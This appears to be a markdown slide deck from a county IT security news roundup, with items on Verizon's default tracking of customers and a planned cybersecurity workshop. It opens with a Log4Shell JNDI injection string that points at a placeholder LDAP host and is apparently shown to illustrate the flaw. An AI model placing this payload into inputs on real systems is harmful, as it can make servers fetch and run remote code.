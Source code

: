 ```${jndi:ldap://example.com/file}```
---

### 2021-12-08: Verizon’s Custom Experience Tracking

<img src="https://media.wired.com/photos/61b0d536315dad96cfe1db49/master/w_1600,c_limit/Science_screenshot.jpg"
	style="height:400px; border-radius:15px;" />

--

https://www.wired.com/story/verizon-user-privacy-settings/

"VERIZON USERS ARE now automatically enrolled in a data collection program tracking information like websites visited  and mobile app usage. [Verizon] runs a two-tiered tracking program and automatically enrolls every customer in the first tier."

---

### 2022-01-19 - 2022-01-20: ICIT Cyber Workshop @ ISAC University ?

<img src="https://hockeystickprinciples.com/wp-content/uploads/2017/09/animal_house.jpg"
	style="height:400px; border-radius:15px;" />

--

https://www.iowacounties.org/event/isac-university/

Arrangements being attempted to offer an ICIT Cybersecurity Workshop at ISAC University 2022.

---

# ICIT-SEC: 2022.01.05

## **ICYMI**

> All the news that's fit to hack...

https://icit.link/icymi

https://github.com/iowacountiesit/icit-sec.icymi



